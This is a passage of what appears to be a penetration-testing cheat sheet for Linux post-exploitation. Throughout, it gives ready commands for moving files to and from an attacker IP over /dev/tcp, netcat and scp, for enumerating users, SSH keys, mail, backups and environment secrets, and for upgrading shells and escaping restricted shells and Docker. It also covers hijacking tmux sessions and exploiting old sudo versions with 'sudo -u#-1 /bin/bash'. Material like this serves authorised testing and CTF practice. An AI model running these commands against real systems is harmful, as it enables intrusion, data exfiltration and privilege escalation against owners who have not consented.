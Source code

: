         *   Native Bash
            *   `exec 3<>/dev/tcp/[IP]/8888`
            *   `echo -e "GET /[SRC] HTTP/1.1\n\n">&3`
            *   `cat <&3 | tee [DEST]`
        *   Server on Victim
            *   `python3 -m http.server 8000`
            *   `python2 -m SimpleHTTPServer 8000`
            *   `php -S 0.0.0.0:8000`
            *   `ruby -run -ehttpd . -p8000`
    *   NC
        *   `nc -lvp 5555 > [DEST]`
        *   `nc [IP] [PORT] < [SRC]`
    *   B64
        *   `cat [SRC] |base64 -w 0;echo`
        *   `echo -n '[B64_DATA]' | base64 -d > [DEST]`
    *   SSH
        *   `sudo systemctl [enable/start] ssh`
        *   `scp [SRC] [USER]@[IP]:[DEST]`
*   Users
    *   Service Accounts < Normal Users < Root → Determine EOP Path
    *   Enumeration
        *   `cat /etc/passwd | grep "*sh$"`    → Writable  + Valid Usernames
        *   `id`                                                           → [Privileged Groups Exploitation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe) / Custom Group Access
        *   `ls -lar /home/`                                   → Sensitive Files / SSH Keys / History & RC Files / Mozilla Profiles / Slack Config
        *   `ls -la /var/spool /var/mail`        → E-Mail Data
        *   `ls -la /var/backups /backup`        → Backup Files
        *   `(env || set) 2>/dev/null`              → Environmental Variables
        *   `ls -la /opt /srv /app`                    → Applications / Exploit Research / Code Analysis
        *   `ls -la /`                                               → Readable Root Files / Directories
        *   `dpkg -l` / `rpm -qa`                              → OpenVAS & Debsecan / Interesting Names (Nagios / Other)
        *   Local Authentication
            *   `su - [username]`
            *   Password Re-Use
    *   Shells
        *   TTY Upgrade
            *   `python -c 'import pty; pty.spawn("/bin/bash")'` 
            *   `script /dev/null -c bash`
            *   Follow-up
                *   CTRL+Z
                *   `stty raw -echo; fg`
                *   `reset` → Input `screen`
        *   Jail Escape
            *   RBash / Limited Shell → `ssh [AUTH] -t bash` / [Auto-Completion](https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html) / GTFOBin → `echo $PATH` / `help` / `?`
            *   `ls -la /.dockerenv`    → [Docker Breakouts](https://juggernaut-sec.com/docker-breakout-lpe/) + `capsh --print` + Disk Access → `df -h`
        *   Tmux Hijacking
            *   `tmux --version` < v2.1
            *   `tmux ls` → `tmux attach -d -t [NAME]`
        *   Outdated Screen / Bash 
            *   `bash --version`
            *   `screen --version`
        *   EOF Writing
            *   `cat > [OUT]<<EOF`
            *   Write Line-by-Line → End file with `EOF`
    *   SUDO
        *   Misconfigurations
            *   `sudo -V`                                                        → Version `<1.8.28` → `sudo -u#-1 /bin/bash`